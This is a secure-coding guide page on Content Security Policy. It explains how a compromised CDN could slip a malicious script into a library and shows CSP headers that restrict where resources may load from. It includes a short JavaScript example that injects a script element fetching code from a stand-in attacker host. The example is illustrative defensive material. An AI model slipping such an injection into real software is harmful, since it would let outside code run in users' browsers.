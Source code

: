 Content Security Policy
=======================

[Content Security Policy][1] (CSP) is W3C Candidate Recommendation introduced to
prevent [Cross-Site Scripting attacks][2], click jacking and other code
injection attacks.

If you already read [Dependencies][3] and [Interpreted Code Integrity][4]
general coding practices, you will see that they share some security concerns.

Starting with [Dependencies][3]. As our applications have dependencies,
dependencies also have their own dependencies. How do we know them all?

Our applications are build server-side and are then sent to the client where
they run and live throughout most of the execution time. How do they know what
is running there?

Let's assume that you do not have SRI in place (if so, please read the
[Interpreted Code Integrity][4] section) and you're loading JavaScript resources
from a CDN. How do you know that these JavaScript resources only download known
dependencies and nothing else? What if the CDN gets compromised and one of the
JavaScript resources that your application downloads includes a malicious
payload? Think of something such as the example below in the middle of a huge
library:

```javascript
const s = document.createElement(s);
s.src='//attacker.com/malicious.js';
document.body.appendChild(s);
```

`Content-Security-Policy` is an HTTP response header which allows the server to
tell the web browser what dynamic resources are allowed to load.
By "dynamic resources" you should consider JavaScript scripts, stylesheets,
images, XMLHttpRequests (AJAX), WebSockets or EventSource, fonts, objects
(`<object>`, `<embed>` or `<applet>`), media (`<audio>` and `<video>`), frames
and forms.

You're recommended to read the official [Content Security Policy Reference][1]
so that you can take full advantage of all its features.

For completeness, the following examples lock your application resources to the
same origin policy - resources are only allowed to load when they come from your
application domain (`self`).

```
Content-Security-Policy: default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self'; style-src 'self';
```

As stated before, CSP also fits OWASP recommendations for [Interpreted Code
Integrity][4] overlapping SRI capabilities. For example, a hash can be provided
to `script-src` allowing it to run if and only if it matches, give hash

```
Content-Security-Policy: script-src 'sha256-qznLcsROx4GACP2dm0UCKCzCG+HiZ1guq6ZZDob/Tng='
```

Although CSP is not bulletproof and it may look hard to manage, you should
definitely apply it to your web applications.

[1]: https://content-security-policy.com/
[2]: ../output-encoding/README.md
[3]: ./dependencies.md
[4]: ./interpreted-code-integrity.md
